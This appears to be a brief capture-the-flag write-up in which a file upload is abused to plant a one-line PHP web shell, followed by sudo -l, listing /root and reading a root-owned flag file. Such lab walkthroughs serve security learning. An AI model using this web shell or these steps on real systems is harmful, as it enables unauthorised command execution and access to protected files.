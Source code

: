 > The web app allows file upload, which we can use to upload a webshell...
```
<?php system($_GET['cmd']); ?>
```
> We receive the name of the endpoint when the file is uploaded. We access the endpoint and check our sudo permissions:
```
sudo -l
```
> Looks like we have sudo with all commands
```
sudo ls -la /root
```
> The flag is in there...
```
sudo cat /root/flag.txt
```
Finis
